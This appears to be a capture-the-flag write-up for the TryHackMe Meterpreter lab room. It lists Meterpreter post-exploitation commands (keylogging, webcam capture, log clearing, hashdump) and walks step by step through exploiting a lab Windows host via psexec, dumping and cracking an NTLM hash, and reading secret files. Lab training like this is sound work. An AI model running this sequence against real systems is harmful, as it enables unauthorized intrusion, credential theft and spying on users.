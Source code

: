 # Metasploit: Meterpreter

[Metasploit: Meterpreter](https://tryhackme.com/room/meterpreter)

Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

## Meterpreter commands

Core commands:

- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands:

- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory

Networking commands:

- `arp`: Displays the host ARP (Address Resolution Protocol) cache
- `ifconfig`: Displays network interfaces available on the target system
- `netstat`: Displays the network connections
- `portfwd`: Forwards a local port to a remote service
- `route`: Allows you to view and modify the routing table

System commands:

- `clearev`: Clears the event logs
- `execute`: Executes a command
- `getpid`: Shows the current process identifier
- `getuid`: Shows the user that Meterpreter is running as
- `kill`: Terminates a process
- `pkill`: Terminates processes by name
- `ps`: Lists running processes
- `reboot`: Reboots the remote computer
- `shell`: Drops into a system command shell
- `shutdown`: Shuts down the remote computer
- `sysinfo`: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu):

- `idletime`: Returns the number of seconds the remote user has been idle
- `keyscan_dump`: Dumps the keystroke buffer
- `keyscan_start`: Starts capturing keystrokes
- `keyscan_stop`: Stops capturing keystrokes
- `screenshare`: Allows you to watch the remote user's desktop in real time
- `screenshot`: Grabs a screenshot of the interactive desktop
- `record_mic`: Records audio from the default microphone for X seconds
- `webcam_chat`: Starts a video chat
- `webcam_list`: Lists webcams
- `webcam_snap`: Takes a snapshot from the specified webcam
- `webcam_stream`: Plays a video stream from the specified webcam
- `getsystem`: Attempts to elevate your privilege to that of local system
- `hashdump`: Dumps the contents of the SAM database

| Title | IP Address |
| :----: | :----: |
| Win4Meterpreter | 10.10.107.174 |

Using `msfconsole`:

```bash
db_nmap -A -vv -T4 -oN initial.nmap 10.10.107.174
```

Result: [initial.nmap](initial.nmap)

```bash
user exploit/windows/smb/psexec
hosts -R
set lhost <localhost>
set smbuser ballen
set smbpass Password1
run
```

meterpreter:

```bash
sysinfo
```

> `Computer : ACME-TEST`

> `Domain : FLASH`

```bash
background
```

`msfconsole`:

```bash
use post/windows/gather/enum_shares
set session 1
run
```

> `[*] Name: speedster`

```bash
sessions 1
```

meterpreter:

```bash
ps
```

> `756 632 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\lsass.exe`

```bash
migrate 756
hashdump
```

> `jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::`

Copy

```bash
background
```

`msfconsole`:

```bash
cat > hash
```

Paste

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

> `Trustno1 (?)`

```bash
sessions 1
```

meterpreter:

```bash
search -f secrets.txt
```

> `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt (35 bytes)`

```bash
cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```

> `My Twitter password is KDSvbsw3849!`

```bash
search -f realsecret.txt
```

> `c:\inetpub\wwwroot\realsecret.txt (34 bytes)`

```bash
cat "c:\inetpub\wwwroot\realsecret.txt"
```

> `The Flash is the fastest man alive`
